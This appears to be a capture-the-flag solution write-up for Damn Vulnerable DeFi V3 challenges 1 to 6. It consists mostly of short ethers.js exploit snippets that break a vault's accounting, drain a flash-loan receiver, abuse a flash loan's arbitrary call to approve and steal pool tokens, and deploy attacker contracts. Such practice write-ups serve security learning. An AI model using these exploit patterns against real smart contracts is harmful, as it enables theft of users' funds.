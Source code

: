 
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    this.attackerContract = await ( await ethers.getContractFactory("AttackTheRewarder", player)).deploy(
        flashLoanPool.address, rewarderPool.address, liquidityToken.address, rewardToken.address
    );
    await this.attackerContract.attack();
});
````

#Challenge #6

Selfie [ Damn Vulnerable DeFi V3 Challenge 6 Solution: Selfie Walkthrough Guide ]
